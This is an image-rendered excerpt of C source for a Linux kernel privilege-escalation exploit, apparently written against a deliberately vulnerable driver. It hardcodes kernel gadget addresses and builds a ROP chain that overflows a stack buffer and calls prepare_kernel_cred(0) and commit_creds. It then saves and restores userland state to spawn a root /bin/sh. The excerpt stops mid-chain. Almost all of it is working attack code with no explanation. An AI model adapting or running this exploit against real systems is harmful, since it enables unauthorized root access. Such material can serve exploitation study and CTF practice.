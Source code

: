 ```c
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t pop_rdi_ret = 0xffffffff8127bbdc;
uint64_t mov_rdi_rax_ret = 0xffffffff8160c96b;
uint64_t pop_rcx_ret = 0xffffffff812ea083;
uint64_t iretq = 0xffffffff81343b12;
uint64_t swapgd = 0xffffffff8160bfac;
uint64_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff81800e10;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          ".att_syntax");
}

void overwrite_ret() {
  puts("[*] trying to overwrite return address of write op");
  uint64_t ret_off = 0x408;
  char payload[0x500];
  memset(payload, 'A', ret_off);
  //   *(uint64_t *)&payload[ret_off] = (uint64_t)privesc; // return address
  uint64_t *rop_chain = (uint64_t *)&payload[ret_off];
  *rop_chain++ = pop_rdi_ret;
  *rop_chain++ = 0;
  *rop_chain++ = prepare_kernel_cred;
  *rop_chain++ = pop_rcx_ret;
  *rop_chain++ = 0;
  *rop_chain++ = mov_rdi_rax_ret;
  *rop_chain++ = commit_creds;
  *rop_chain++ = swapgs_restore_regs_and_return_to_usermode + 22;
```